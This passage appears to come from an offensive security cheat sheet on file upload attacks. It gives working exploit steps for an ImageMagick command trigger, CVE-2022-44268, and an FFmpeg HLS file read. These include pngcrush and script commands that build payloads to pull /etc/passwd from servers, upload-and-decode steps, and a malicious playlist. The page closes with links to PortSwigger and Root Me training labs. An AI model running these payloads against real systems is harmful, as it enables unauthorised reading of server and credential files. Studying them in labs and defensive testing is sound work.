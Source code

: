 The vulnerability can be triggered by using the `convert` command.

```ps1
convert shellexec.jpeg whatever.gif
```

#### CVE-2022-44268

CVE-2022-44268 is an information disclosure vulnerability identified in ImageMagick. An attacker can exploit this by crafting a malicious image file that, when processed by ImageMagick, can disclose information from the local filesystem of the server running the vulnerable version of the software.

* Generate the payload

    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" exploit.png
    ```

* Trigger the exploit by uploading the file. The backend might use something like `convert pngout.png pngconverted.png`
* Download the converted picture and inspect its content with: `identify -verbose pngconverted.png`
* Convert the exfiltrated data: `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'`

More payloads in the folder `Picture ImageMagick/`.

### CVE - FFMpeg HLS

FFmpeg is an open source software used for processing audio and video formats. You can use a malicious HLS playlist inside an AVI video to read arbitrary files.

1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. Upload `file_read.avi` to some website that processes videofiles
3. On server side, done by the videoservice: `ffmpeg -i file_read.avi output.mp4`
4. Click "Play" in the videoservice.
5. If you are lucky, you'll the content of `<filename>` from the server.

The script creates an AVI that contains an HLS playlist inside GAB2. The playlist generated by this script looks like this:

```ps1
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```

More payloads in the folder `CVE FFmpeg HLS/`.

## Labs

* [PortSwigger - Labs on File Uploads](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)
* [Root Me - File upload - Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)
* [Root Me - File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)
* [Root Me - File upload - Null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Null-byte)
* [Root Me - File upload - ZIP](https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP)
* [Root Me - File upload - Polyglot](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot)
